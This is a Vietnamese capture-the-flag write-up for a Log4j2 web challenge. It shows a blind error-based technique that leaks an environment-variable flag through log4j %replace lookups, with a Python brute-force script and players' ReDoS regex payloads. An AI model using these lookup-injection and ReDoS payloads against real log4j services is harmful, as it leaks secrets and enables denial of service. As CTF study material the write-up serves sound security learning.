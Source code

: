 # LOG4J2

Bài này cũng tương tự như bài trước nhưng đối với error thì đều hiển thị `Sensitive information detected in output. Censored for security reasons.`

(blind)

Vì ta đang khai thác theo hướng log4j lookup và hiện tại có được:
- kết quả của lookup là hợp lệ thì không hiển thị ra `Sensitive information detected in output. Censored for security reasons.` (có thể là `The command should start with a /.` hoặc kết quả của `System.out.println()` ...)
- ngược lại hiển thị `Sensitive information detected in output. Censored for security reasons.`

=> tìm cách khai thác theo hướng blind

Tiếp theo mình thử search để tìm cách replace một chuỗi:

(search)

Tìm được `%replace`, sau khi đọc [docs](https://logging.apache.org/log4j/2.x/manual/layouts.html#:~:text=in%20the%20string%20%22**%22.-,replace,-%7Bpattern%7D%7Bregex%7D%7Bsubstitution) của nó thì có thể hiểu như sau:

Syntax: _replace{pattern}{regex}{substitution}_

-> thực hiện việc thay thế `pattern` với `substitution` theo biểu thức `regex`.

Dùng source của version 1 sau đó build local, chỉnh `<Console name="Console" target="SYSTEM_ERR">` trong `log4j2.xml` thành `<Console name="Console" target="SYSTEM_OUT">` để debug.

Sau đó test với `%replace{${env:FLAG}}{CTF}{${java:os}}`:

(error_test)

-> throw ra error ngay lập tức bởi vì biến môi trường FLAG có chứa `CTF` vì vậy sẽ trigger replace với substitution là `${java:os}`.  `named capturing group is missing trailing '}'` cho thấy **có lẽ** là không thể dùng lookup ở `substitution` của `%replace` hoặc cách dùng của mình bị sai (điều này không quan trọng lắm bởi vì mục đích vẫn là khai thác error-based).

Nếu test với `%replace{${env:FLAG}}{CTFbla}{${java:os}}` thì:

(success)

-> không throw error bởi vì `CTFbla` không match với biến môi trường FLAG cho nên không trigger replace với substitution.

Tóm lại ta có:
- `text=%replace{${env:FLAG}}{CTF+<right character>}{${java:os}}` -> `The command should start with a /.`
- `text=%replace{${env:FLAG}}{CTF+<wrong character>}{${java:os}}` -> `Sensitive information detected in output. Censored for security reasons.`

---

## Script exploit:

_Note: dùng `.` để thay thế cho `{` trong flag nếu không sẽ bị lỗi syntax._


```py
import requests
import string
import re

URL = "https://log4j2-web.2022.ctfcompetition.com/"

FLAG = "CTF{"

while not FLAG.endswith('}'):
    for i in string.ascii_lowercase + '-':
        trying = r"%replace{${env:FLAG}}{KNOWN}{${java:os}}".replace("KNOWN", FLAG.replace('{', '.') + re.escape(i))
        print(trying)
        r = requests.post(URL, data = {"text": trying})
        if "Sensitive" in r.text:
            FLAG += i
            print(FLAG)
            break
```

**CTF{and-you-thought-it-was-over-didnt-you}**

___

P/S: bài này intended solution của nó là ReDoS khai thác dựa vào `regex` của `%replace` lúc đầu mình cũng định làm theo hướng này nhưng sau khi test ra được blind error-based như trên thì chuyển luôn 😗.

solution của tác giả `@phiber`:

```
{"text": "/%replace{%replace{${env:FLAG}}{^.{" + str(char_count) + "}(.).*}{$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1}@}{(.*" + c + "){10}$}{}"}
```

hoặc của `@maple3142`
```
%replace{S${env:FLAG}E}{^SCTF.something((((((((((((((((((((.)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*E$}{}
```
